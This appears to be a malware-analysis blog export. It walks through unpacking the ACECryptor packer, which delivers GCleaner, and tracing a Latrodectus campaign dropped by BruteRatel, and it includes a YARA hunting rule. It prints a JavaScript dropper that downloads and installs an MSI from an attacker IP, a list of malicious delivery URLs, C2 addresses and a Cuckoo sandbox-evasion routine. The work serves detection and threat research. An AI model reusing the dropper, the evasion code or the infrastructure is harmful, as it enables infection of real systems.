[[https://bazaar.abuse.ch/sample/b0968bdb6a175a38ec05efcf605ed61411d16e63e692bc0d7b8f1f747ce3b2e5/][SHA-256: b0968bdb6a175a38ec05efcf605ed61411d16e63e692bc0d7b8f1f747ce3b2e5]]

The IDB for the three stages are available below. Feel free to used it :).

#+begin_export hugo

#+end_export

/NB: This packed sample deliver GCleaner (a loader working as a Pay Per Install)./

The extracted C2 server of GCleaner set in this sample are:
- =185.172.128.]90=
- =5.42.65.]115=

** Stage 0 - Too much noice
The first stage of this packer employs a concealment technique that involves multiple
legitimate system calls. These calls differ between each build of the crypter.

The primary responsibility of this initial stage is to load the subsequent stage into memory, decrypt it, and execute it.
This approach is typical for a packer and is not particularly surprising.

Using the [[https://github.com/danigargu/IDAtropy][IDAtropy]] plugin, we can easily identify an unsual entropy value in the =.text= section.
The Shannon entropy is a mathematical function that corresponds to the amount of variation in information.
Meaning, the more varied the data, the higher entropy is; and the more identical the information is, the lower it entropy is.

#+name: fig__post_subtrees_collapsed
#+caption: ACECryptor sections entropy's

In the above capture of the entropy of ACECryptor sample, an unusual entropy stand out in the =.text= section.
This section should contains only executable code (that what .text is purposed). By taking a look at this
chunk of data in IDA, the tool cannot decompiled it.

/Keep in a note the address of this blob of data, we will validate that this data are in fact the obfuscated stage 1./ 

The unpacking process for stage 0 can be summarized as follows:
1. Search for instances of VirtualProtect usage;
2. Identify the page region where permissions were modified to include execution rights;
3. Locate the point in the code where this buffer is invoked;
4. Use a debugger to reach the call to that buffer and create a memory dump.

To better understand the packer's objective, here's a quick method for delving into the second stage:
First, search for cross-references (=XRefs=) to =VirtualProtect= (Figure 2).

#+name: fig__post_subtrees_collapsed
#+caption: Search VirtualProtect


Then decompile the function using =VirtualProtect= from =Kernel32.dll=, whose signature is:
#+begin_sidenote
According to MSDN document [[https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect][MSDN VirtualProtect]]
#+end_sidenote

#+begin_src c++
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
#+end_src

As noticed in the function that modify the page permission to =PAGE_EXECUTE_READWRITE=, which
is a noteworthy for a next stage execution. Moreover, the last reference is a call to that address,
which is a good indicator for a potential next stage execution.
#+name: fig__post_subtrees_collapsed
#+caption: XRef to lpAddress


Last step to unpack the stage 1 is to add a breakpoint on that specific call
in =sub_401221= at line =245= (=call lpAddress=). And run until it is reached!

In xdbg, use the "follow in dump" the address of the call here: =ds:44588C= and go to memory
map tab for this specifics address (/btw: save the address, it will be useful for
the analysis of the next stage: entrypoint/).
#+name: fig__post_subtrees_collapsed
#+caption: Memory map of the address of the stage 1


Then create a memory dump of this page:
#+name: fig__post_subtrees_collapsed
#+caption: Create memory dump of the page


** Stage 1 - Shellcode
In this step of the analysis, we are digging in the previously dumped memory.
A memory dump (in this scenario) induce to a file that is not a valid PE, which
mean no section, no import, etc... To deal with it, it is highly required to
import in IDA the necessary libraries (Open the =Type Libraries= view in IDA
from the toolbar =View= > =Open subviews= > =Type libraries= or =Shift+F11=).

And import the /MS Windows Native API (NDK)/ type library.
#+name: fig__post_subtrees_collapsed
#+caption: Import type libraries


Because the entrypoint of this stage was saved from the previous analysed stage,
a quick look at the two called functions show a tiny stage. Let walk through each of
them.

The first function is used to resolved and dynamically import functions from =Kernel32.dll=
and to instanciate a structure. Creating the structure will help for the second function
understanding.

#+name: fig__post_subtrees_collapsed
#+caption: First function of stage 1


Before digging in the analysis, a quick check to stack in memory.
It appears that the function only takes one argument and declares bunch of local variables.
Before creating a structure for this, let take a look at the function =sub_673AC3=.

The function loop over a data structure in NtCurrentPeb (/Process Envionment Block/),
starting typing the different local variables using the MSDN documentation
#+begin_sidenote
MSDN Winternl PEB: https://learn.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb
#+end_sidenote
and the igors-tip-of-the-week, plus looking at the IDA view =Local Types=
#+begin_sidenote
Hex-rays igors tips: type libraries https://hex-rays.com/blog/igors-tip-of-the-week-60-type-libraries/
#+end_sidenote
help to understand the purpose of that function, it goes to 

#+name: fig__post_subtrees_collapsed
#+caption: Raw function =sub_673AC3=
file:images/acecrypter/dynamic_api_import_raw.png

The for loop travel the PE header starting from the =PEB= to =PEB_LDR_DATA= to go to the
=DataDirectory= and loop over the function in the required /DLL/.

/Of note: because we already import the NtAPI, IDA detects some structures: TEB, Flink./

#+name: fig__post_subtrees_collapsed
#+caption: Typed function dynamic_api_import
file:images/acecrypter/dynamic_api_import_typed.png

At the first look, I cannot identify the hashing algorithm however with the IDA plugin
[[https://github.com/OALabs/hashdb-ida][Hashdb]] give a direct answer to identify the algorithm. (Right click on the first constant and
select the =HashDB Hunt Algorithm= option which answer =Kernel32=, then right click on the second
function argument with the option =HashDB Lookup=, the first function call is for =LoadLibrary=
and the second one for =GetProcAddress=.

#+name: fig__post_subtrees_collapsed
#+caption: identification of the hashing algorithm with hashdb
file:images/acecrypter/hashdb_steps.png

Finally, a decent structure can be created for the variable =arg0=.

#+begin_src c
struct MainStruct // sizeof=0x34
{
  _DWORD start;
  Shellcode2Metadata *shellcode_header;
  _DWORD ptr_shellcode_next_stage_offset;
  _DWORD seed;
  int (__stdcall *LoadLibraryA)(_WORD *);
  int (__stdcall *GetProcAddress)(int, _WORD *);
  int GlobalAlloc;
  int (*GetLastError)(void);
  void (__cdecl *Sleep)(int);
  int (__stdcall *VirtualAlloc)(_DWORD, _DWORD, int, int);
  int (__cdecl *CreateToolhelp32Snapshot)(int, _DWORD);
  int (__cdecl *Module32First)(int, int *);
  int (__cdecl *CloseHandle)(int);
};
#+end_src

/NB: the stage structure will be detailed later in this section./

So the structure is used to register pointers to the next stage obfuscated and also
to the different functions from =Kernel32.dll= that the program will used later on.

To type correctly the variables that are functions, open a legitimate program in IDA
that import Kernel32.dll functions and copy/past their type signature in the structure
definition.

Now propagate the type in the caller function and the last function called by the main.

Once we propagate the structure in the stage 1 shellcode, we can search for the blob modification.
Using CAPA we have two interesting hits:
- /Encode data using XOR/;
- /Decompress data using LZ0/.

So we can retype the function that matches the LZ0 CAPA rule, and take a look at the
XOR function. By searching for the different constants of the algorithm, it appears to be
the LCG (Linea Congruential generator) implementation of Microsoft Visaul C/C++.

#+begin_src C
// Microsoft RAND
// https://en.wikipedia.org/wiki/Linear_congruential_generator
int __cdecl msvc_lcg(MainStruct *a1)
{
  unsigned int v1; // eax

  v1 = 0x343FD * a1->seed + 0x269EC3;
  a1->seed = v1;
  return HIWORD(v1) & 0x7FFF;
}
#+end_src

At this stage of execution, the shellcode needs to unXOR and decompress the next stage.
The location of these data is stored in a structure called =Shellcode2Metadata=,
which is a substructure of what we named =MainStruct=.

#+begin_src C
struct Shellcode2Metadata // sizeof=0xD
{
  _DWORD size;
  _DWORD seed;
  _BYTE flag;
  _DWORD decompressSize;
};
#+end_src

Finally, after unxoring the data and decompressing it with the LZ0 algorithm,
the shellcode uses a jump instruction to proceed to the next stage of execution.

#+begin_src C -n :hl_lines 17
void __cdecl execute_decompressed_lzo_stage(MainStruct *malware)
{
  int v1; // [esp+0h] [ebp-Ch] BYREF
  unsigned __int8 *buff; // [esp+4h] [ebp-8h]
  int ptr_blob_offset; // [esp+8h] [ebp-4h]

  ptr_blob_offset = malware->ptr_shellcode_next_stage_offset;
  init_blob_headers(malware, ptr_blob_offset, malware->shellcode_header->size, malware->shellcode_header->seed);
  if ( malware->shellcode_header->flag )
  {
    buff = malware->VirtualAlloc(0, malware->shellcode_header->decompressSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    v1 = 0;
    lzo_decrompress(ptr_blob_offset, malware->shellcode_header->size, buff, &v1);
    ptr_blob_offset = buff;
    malware->shellcode_header->size = v1;
  }
  __asm { jmp     [ebp+ptr_blob_offset] }
}
#+end_src

To obtain a clean version of the next stage, the same task used in the previous stage can be replicated.
Therefore, before the =jmp [ebp+ptr_blob_offset]= instruction, we save the address where the program jumps
and then dump that memory using the =Memory map= tab in xdbg.

** Stage 2 - Next stage execution
This last stage is also a shellcode. It contains 3 types of data:
1. The shellcode itself;
2. An obfuscated structure;
3. An LZ0 compressed final payload.

As in the previous stage, the shellcode works with a central structure, which this time is more abundant.
The structure contains pointers to loaded functions as well as information about the final payload such as
the number of sections, the address of the entry point, etc.

The challenge in this stage is that the structure uses negative offsets to access its members,
unlike other stages that use the more conventional method.
In IDA, we cannot use the right-click "create new structure" feature from a variable.
This feature is very helpful for building a structure by roughly computing the number of members and their types.
But this does not work for negative offset structure...

In this situation, we should scroll through the function and identify the highest offset (in this case, *254*).
Based on this value, we can create a raw structure with (254 / 8) =_DWORD= members:
#+begin_src C
struct stage3 {
  _DWORD dword_0;                                                                                                                                             
  _DWORD dword_4;                                                              
  _DWORD dword_8;                                                              
  _DWORD dword_12;                                                             
  _DWORD dword_16;                                                             
  _DWORD dword_20;                                                             
  _DWORD dword_24;                                                                                                                                             
  _DWORD dword_28;                                                             
  _DWORD dword_32;                                                             
  _DWORD dword_36;                                                                                                                                            
  _DWORD dword_40;                                                             
  _DWORD dword_44;                                                             
  _DWORD dword_48;                                                             
  _DWORD dword_52;                                                             
  _DWORD dword_56;                                                             
  _DWORD count_copied_data;                                                    
  _DWORD ptr_dest_no_compression;                                              
  _DWORD TerminateProcess;                                                     
  LPVOID lpAddress;                                                            
  _DWORD BaseOfCode;                                                           
  SIZE_T mem_size;                                                             
  _DWORD raw_addr_next_stage;                                                  
  _DWORD dword_88;                                                                             
  _DWORD msvcr100_handle;                                                                      
  _DWORD copy_lpAddress;                                                                       
  _DWORD dword_100;                                                                            
  char buff_string[16] __strlit(C,"UTF-8");                                                    
  _DWORD dword_120;                                                                            
  _DWORD dword_124;                                                                            
  _DWORD dword_128;                                                                            
  _DWORD dword_132;                                                                            
  _DWORD copy_nt_header;                                                                       
  _DWORD dword_140;                                                                            
  int (__cdecl *GetProcAddress)(HANDLE, char *);                                               
  _DWORD VirtualFree;                                                                          
  IMAGE_OPTIONAL_HEADER *optionalHeader;                                                       
  IMAGE_NT_HEADERS *nt_headers_;                                                               
  _DWORD dword_160;                                                                            
  void (__stdcall *SetErrorMode)(int);                                                         
  _DWORD dword_168;                                                                            
  int (__cdecl *VirtualAlloc)(_DWORD, _DWORD, int, int);                                                                                                                                      
  void (__stdcall *GetVersionExA)(int *);                                                      
  _DWORD NEXT_STAGE_ENTRYPOINT;                                                                
  _DWORD dword_184;                                                                            
  HANDLE handle_kernel32;                                                                      
  _DWORD copy_ptr_allocated_mem;                                                               
  _DWORD dword_196;                                                                            
  void (__cdecl *atexit)(_DWORD);                                                              
  _DWORD LoadLibrary;                                                                          
  int (__cdecl *VirtualProtect)(LPVOID, _DWORD, MACRO_PAGE, _DWORD *);                                                                                                                        
  _DWORD ptr_lz0_decompress;                                                                   
  _DWORD lpflOldProtect;                                                                       
  IMAGE_NT_HEADERS *nt_headers;                                                                
  _DWORD TerminateProcess_;                                                                    
  int (__stdcall *ExitProcess)(_DWORD);                                                        
  LPVOID ptr_allocated_mem;                                                                    
  _DWORD result_virtualProtect;                                                                
  _DWORD dword_240;                                                                            
  _DWORD dword_244;                                                                            
  _DWORD dword_248;
};
#+end_src

We assume that some of the =_DWORD= elements can be merged with others to create arrays,
or they may be split into strings, boolean, or other types.

However, to retype the variable with our newly created structure, we need to make IDA understand
the negative structure offset. This can be done using [[https://hex-rays.com/blog/igors-tip-of-the-week-54-shifted-pointers][=__shifted= pointer]]. 
#+begin_sidenote
Shifted pointers is another custom extension to the C syntax.
They are used by IDA and decompiler to represent a pointer to an object with some offset or adjustment
(positive or negative). Let’s see how they work and several situations where they can be useful.
#+end_sidenote

In our case we retype the variable with this code =int *__shifted(stage2,0xF8) stage3=

*** Anti Sandbox
ACECryptor implemented an anti sandbox feature against cuckoo according [[https://asec.ahnlab.com/en/17147/][ahnlab article]].

#+begin_src C
int __cdecl sandbox_bypass(int (__stdcall *SetErrorMode)(_DWORD),
			   int (__stdcall *TerminateProcess)(_DWORD))
  {
    int result;

    SetErrorMode(0x400);
    result = SetErrorMode(0);
    if (result != 0x400)
      return TerminateProcess(0);
    return result;
  }
#+end_src

The function =SetErrorMode= is used to set an error mode to the current process and return its previous mode.
However, in Cuckoo sandbox The SetErrorMode is set to =SEM_FAILCRITICALERRORS|SEM_NOALIGNMENTFAULTEXCEPT= (0x8007),
according to Anlab analysis, the problem resids in the =SEM_NOALIGNMENTFAULTEXCEPT=, when an attempt to reset the error mode
previously set to =SEM_NOALIGNMENTFAULTEXCEPT= is ignored and 0x404 is set instead of 0x400.

*** Trigger the execution
After remaping the sections of the next stage and rebasing the next stage in the memory of the current process, the packer
dynamically load the =atexit= function from =msvcr100.dll=. 

> Processes the specified function at exit.
#+begin_src C
int atexit(
   void (__cdecl *func )( void )
);
#+end_src

If the =atexit= function is successfuly loaded, the packer provides as it first argument the address the entry point of
the final payload.

** Other great analysis
- [[https://www.welivesecurity.com/2023/05/25/shedding-light-acecryptor-operation/][ESET: Shedding light on AceCryptor and its operation]]
- [[https://fumik0.com/2021/04/24/anatomy-of-a-simple-and-popular-packer/][Anatomy of a simple and popular packer]]

** Tools
- [[https://hex-rays.com/ida-free][IDA]]
- [[https://x64dbg.com/][xdbg]]
- [[https://github.com/OALabs/hashdb-ida][IDA plugin: HashDB]]
- [[https://github.com/danigargu/IDAtropy][IDA plugin: IDAtropy]]
- [[https://github.com/bootleg/ret-sync][ret-sync: IDA xdbg synchronize]]

* DONE Latrodectus dropped by BR4 🕷️                 :@RE:loader:campaign:yara:
SCHEDULED: <2024-08-01 Thu>
:PROPERTIES:
:EXPORT_FILE_NAME: latrodectus
:END:

#+begin_description
This article details the last campaign involving **Latrodectus** malware
that is dropped by **BruteRatel**, some YARA and hunting pivot are also
provided.
#+end_description

** Context
Starting point of the analysis is this [[https://x.com/threatlabz/status/1804918852528357791?s=12&t=hSMYTeIkM3tFxVAaBrKjMg][message on X from Zscaler]] published on <2024-06-24 Mon>.

#+begin_export html
<blockquote align="center" class="twitter-tweet">
🕷️ The initial access broker using <a href="https://twitter.com/hashtag/Latrodectus?src=hash&amp;ref_src=twsrc%5Etfw">#Latrodectus</a> is back! The group has resurrected the malware loader less than a month after <a href="https://twitter.com/hashtag/OperationEndgame?src=hash&amp;ref_src=twsrc%5Etfw">#OperationEndgame</a>. <a href="https://twitter.com/hashtag/BruteRatel?src=hash&amp;ref_src=twsrc%5Etfw">#BruteRatel</a> is currently being used to drop Latrodectus.  Sample BruteRatel SHA256 hash:… <a href="https://t.co/maaz0OYfd3">pic.twitter.com/maaz0OYfd3</a>
&mdash; Zscaler ThreatLabz (@Threatlabz) <a href="https://twitter.com/Threatlabz/status/1804918852528357791?ref_src=twsrc%5Etfw">June 23, 2024</a></blockquote> 
#+end_export

** Stage 0 (Form_Ver-X-X-X.js) pivot
Starting from the hash of **BruteRatel** we found the previous stage JavaScript file. That is overwhelm
of comments. A short JavaScript function is "/hidden/" in the comment, the function
is used to download and execute an MSI file using =ActiveXObject("WindowsInstaller.Installer")=.

#+CAPTION:  Form_Ver-18-13-38.js cleaned
#+BEGIN_SRC js
function installFromURL() {
    var msiPath;    
    try {
        installer = new ActiveXObject("WindowsInstaller.Installer");
        installer.UILevel = 2;
        msiPath = "http:85.208.108.]63/BST.msi";
        installer.InstallProduct(msiPath);
    } catch (e) {
        
    }
}
installFromURL();
#+END_SRC

First pivot on the variable =installer= calling =InstallProduct= method:

You can use this YARA for instance:
#+CAPTION: YARA hunting rule for the JS dropper
#+begin_src yaml
rule Latrodectus_JS_dropper {
  meta:
    purpose = "hunting"
    malware = "latrodectus"
    creation_date = "2024-06-25"
    description = "JS Dropper that DL and install a BR4 MSI"
    classification = "TLP:GREEN"
  strings:
    $s1 = "ActiveXObject"
    $s2 = "//////        installer.InstallProduct(msiPath);"
  condition: all of them
}
#+end_src

> [[https://www.virustotal.com/gui/search/content%253A%2522ActiveXObject%2522%2520content%253A%2522%252F%252F%252F%252F%252F%252F%2520%2520%2520%2520%2520%2520%2520%2520installer.InstallProduct(msiPath)%253B][content:"ActiveXObject" content:"//////        installer.InstallProduct(msiPath);"]]

#+begin_details
#+begin_summary
From the above hunting we get 25 JavaScript files:
#+end_summary
- 04086187681a0737f44284e2f715e3d90a7284157916cf1ece61cccc6d975227
- 073ed26f17f8efd735ad3f7737e88936f4bf2efd9722a37495874d6dd73ec12d
- 0a12f2ccd4dc561b924c3c88a9571a36fdd01acd12d5a3eca88d2336989fcb89
- 156c0afc01a5e346b95ebdb60cea9b7046ad7a61199cd63d6ad0f4ae32a576ac
- 1e2a94cb10157e71a550fd514c3d3607da6e1d2e3dc59b8aec2b175f8492b182
- 232ec24aa416bd642fdd2eb5d5eae2c72f2dd028b0f5058e193acb656e010f6d
- 23303910ff8d01d4d6e1499a627dfa6006793faf36766e0f1e7b9fdf15fb0715
- 2c63de7f491690900d95080d0741bb8282edfec74e58cdc25e7b9ba3a478e574
- 3af71ac2d92510f3300be025a4bf07069fb668da5fbd664431fc1a2d898a7765
- 51d30f6ac9da41e2124b765e74737fa43a6990657f8e57170cea8d59552ce806
- 5b51c052283b08f981cbab43a7c5fcfe740941317adc6c9d9352291dacfda5f0
- 71a429fdbaa04f8eee80c05b123ba00635569801ca041fdc7c6ac41de8aa72d3
- 921f90caf2fab16a171d850e1191f416774b0385b430cd71b4a0d98c270cc940
- b023037cc1f1dc53d60cd574dbbb09ce1013ef4e299f793e14ad35407d3d5cc7
- babfbd312f46e7deed15f68b4e3d4c6a6492bdcc596aaa946986537d3765b53e
- bb9203ca1305e47a2ec1443a640efcd5e2c7d11223184639729673579e12967e
- da305ed28c974ac82afc57ae365e9955b3237cde4659fb1922de4e72ed42f2b7
- dc4317e2514603f94394c762b7e92a8a693689657641e190efeb2ed24c690525
- e4919fd30fc8ad21a3798684bd9b6104907fa214251ffe6c34dc9ae849c7d1b1
- e57990d251937c5e4b27bf2240a08da37a40399bd3faa75ed67616ac3935f843
- f7382cb88fb68a4fb40c29fd991bd3b1f1933a264a45b4d336289a7e3891f13c
#+end_details

Retrieve all delivery C2:
#+CAPTION: python script to retrieve delivery URLs
#+BEGIN_SRC python :var path="/home/pbo/Investigations/Latrodectus/js_stage0/" :exports output :results both
import os

urls = set()

for _, _, filenames in os.walk(path):
    for filename in filenames:
        with open(os.path.join(path, filename), "r") as f:
            raw_script = f.read()
        script = []
        for line in raw_script.split("\n"):
              if line.startswith("////"):
                  script.append(line.replace("////", ""))
                  if "msiPath = " in line:
                      urls.add(line.split(" = ")[-1].replace(";","").replace('"', ''))
return "\n".join(urls)
#+END_SRC

#+RESULTS:
: http://45.95.11.217/ad.msi
: http://85.208.108.12/WSC.msi
: http://85.208.108.63/BST.msi
: http://146.19.106.236/neo.msi
: http://193.32.177.192/vpn.msi
: http://185.219.220.149/bim.msi
: http://85.208.108.12/aes256.msi

#+CAPTION: URL triage
| URL                               | State               |
|-----------------------------------+---------------------|
| =http://146.19.106.236/neo.msi=   | Down                |
| =http://185.219.220.149/bim.msi=  | Down                |
| =http://193.32.177.192/vpn.msi=   | UP <2024-06-24 Mon> |
| =http://45.95.11.217/ad.msi=      | DOWN                |
| =http://85.208.108.12/WSC.msi=    | DOWN                |
| =http://85.208.108.12/aes256.msi= | DOWN                |
| =http://85.208.108.63/BST.msi=    | UP <2024-06-24 Mon> |

** Stage1: MSI
Starting reverse from e57990d251937c5e4b27bf2240a08da37a40399bd3faa75ed67616ac3935f843
(**vpn.msi** downloaded from =hxxp://193.32.]177.192/vpn.msi=)

The MSI install itself in the =AppData= directory and use a custom action to starts the
malicious DLL =aclui.dll= by calling the exported function =edit=.

#+CAPTION: MSI executing a DLL using rundll32


/N.B: =rundll32.exe aclui.dll, edit=, this is interesting to see a non standard DLL entrypoint =edit=/

The DLL is stored in the MSI in the Files segment, which made its extraction convenient with [[https://apps.microsoft.com/detail/9mztr9qs01gn?hl=en-us&gl=US][MSIViewer]].

** Stage 2 BruteRatel: aclui.dll
SHA-256: c5dc5fd676ab5b877bc86f88485c29d9f74933f8e98a33bddc29f0f3acc5a5b9.
The DLL is executed using rundll32.exe on the export name **edit**.

Using [[https://www.unpac.me/results/6b96350a-d548-4ed8-821c-44f5a9ed4dfc][unpac.me]] it detects a BruteRatel =c4_a0= sample and returns an
unpacked file that have this SHA-256 hash: 0d3fd08d237f2f22574edf6baf572fa3b15281170f4d14f98433ddeda9f1c5b2

This file is the first stage of BruteRatel which can again be unpack
on [[https://www.unpac.me/results/7d5be08b-4636-401d-b204-95ca2ea3790e][unpac.me]] with the SHA-256 hash: 77a8e883db7da0b905922f7babc79f1c1b78a521b0a31f6d13922bc0603da427

From the last stage of BruteRatel 77a8e883db7da0b905922f7babc79f1c1b78a521b0a31f6d13922bc0603da427 there is
some memory pattern that are related to Latrodectus (URL with =/live/=). However at the time of writing (<2024-06-25 Tue>)
all of the BR4 C2s are down therefore full infection leading to Latrodectus cannot be executed.

#+begin_mark
A comprehensive and interesting article on this Brute Ratel analysis, which complements the missing part of this article,
has been written by [[https://twitter.com/BlueEye46572843][@BlueEye46572843]]. It was published around the same time and is available on the [[https://any.run/cybersecurity-blog/brute-ratel-c4-analysis/?utm_source=twitter&utm_medium=post&utm_campaign=brc4latrodectus&utm_content=blog&utm_term=240724][ANY.RUN blog]].
#+end_mark

** Stage 3: Latrodectus sample analysis
*** Overview
As from the last stage of BR4 we cannot retrieve the Latrodectus DLL, we
start analysing a sample from the same campaign (JS->BR4->Latrodectus):
SHA-256: [[https://bazaar.abuse.ch/sample/d843d0016164e7ee6f56e65683985981fb14093ed79fde8e664b308a43ff4e79/][d843d0016164e7ee6f56e65683985981fb14093ed79fde8e664b308a43ff4e79]]

The DLL have 4 exported functions that point to the same address:
#+CAPTION: Latrodectus exported functions


*** Dynamic API resolution
Most of the dynamically imported functions are hashed using the CRC32 algorithm,
with only two functions hashed using a different algorithm.

The malware first dynamically resolves various DLLs: =kernel32.dll=, =Wininet.dll= and =ntdll.dll=.
Each DLL is resolved in a dedicated function, and for each function in the DLL, a structure
(=api=, see the definition below) is created and added to an array.
An entry in the =api_table= array has the following structure:
#+CAPTION: C structure of a api entry
#+BEGIN_SRC C
  struct api {
    DWORD funcHash;
    HMODULE* hModule;
    LPVOID*  pFunc;
  };
#+END_SRC

#+CAPTION: NTDLL api resolution


The hash are stored in the "normal" representation (crc32), according to reveng.ai article the
code come from [[https://github.com/ldpreload/BlackLotus/blob/main/src/Shared/api.c?ref=blog.reveng.ai#L84][BlackLotus]] open source project.

Here is a capture of the function used to obtain the DLL base (=_LIST_ENTRY=) of the DLL to load:

#+CAPTION: DLL dynamic loading function
